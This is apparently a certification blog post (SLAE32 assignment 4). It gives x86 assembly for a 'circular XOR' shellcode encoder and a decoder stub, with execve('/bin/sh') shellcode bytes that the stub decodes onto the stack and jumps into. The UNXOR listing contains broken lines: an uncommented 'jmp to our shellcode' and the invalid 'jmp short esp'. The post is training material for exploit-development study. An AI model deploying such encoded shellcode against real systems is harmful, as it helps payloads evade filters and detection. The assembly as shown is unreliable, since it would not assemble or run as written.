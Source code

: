 ```yaml
---
layout: post
title:  SLAE32 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 (actually 4) exercises:
1. xor.py takes a shellcode, xor it with given starting value, then xor each bytes with previous original one plus something she eventually can xor it with all valid ascii values (0,255) and inc from 1 to 9 to find valid pairing, kept in mind that both plain and encoded shellcode cannot contain null bytes
2. xor.asm does the same, in asm, but doesn't says you have to "null terminate" (read xor.py to understand). also cannot print shellcode in hex but prints it as code: you have to pipe to xxd to get the value
3. unxor.py does the reverse: takes encoded shellcode, inc and first xor and gives back the plain shellcode
4. unxor.asm does the same, in asm, but also executes the shellcode

i did the steps also in python3 to confirm that everything's ok: it's not THAT easy to debug an idea using asm :)

used shellcode is a slightly modified version of execve-stack. i remove .data section and all functions to have a straight code.
you can read it at 04_execve_stack.asm at [https://github.com/gulyslae/SLAE32](https://github.com/gulyslae/SLAE32)
python code has been committed to github as well

## XOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",
    ;               paying attention to don't have any null case (ex: 0x4142 will lead to
    ;               null bytes, i should've add 0x2).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; run just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
    
      exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; first al is hardcoded of course, now al will
    xor al, bl ; first one is hardcoded
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,bh
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; because i placed two consecutive values here (actually prev+0x1), al will be 0x00
    ; and because nobody touched edx, dl is 0x00 too
    cmp al,dl
    ;call trap
    je write_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    plainShellcode: db 0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    mlen equ $-plainShellcode
    
      write_shellcode:
    xor eax,eax
    xor ebx,ebx
    xor edx,edx
    
    mov ecx,esp
    ; write id
    mov al, 0x4
    ; write to sdout
    mov bl, 0x1
    ; shellcode len, hardcoded
    ;mov dl, 0x20
    mov dl,mlen
    ; do it
    int 0x80
    ; put in ecx 4 bytes of my shellcode
    
    call exit


## UNXOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",paying attention to don't have any null
    ;               case (ex: 0x4142 will lead to null bytes).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value, then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; runt just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; xor it
    xor al, bl
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,al
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; i know dl is 0x00 because nobody used it, as soon as al is 0x00 too
    jmp to our shellcode
    
    cmp al,dl
    je call_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    Shellcode: db 0x90,0xf2,0x91,0x39,0x46,0x1f,0x43,0x1c,0x01,0x46,0x52,0x0a,0x04,0xe6,0x69,0xb4,0xd8,0x68,0xb0,0xdd,0x6b,0x52,0xba,0xc1,0x4e,0xb0,0xf2,0x71,0xb0,0xcf,0x4e,0x81
    
      call_shellcode:
    jmp short esp


*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
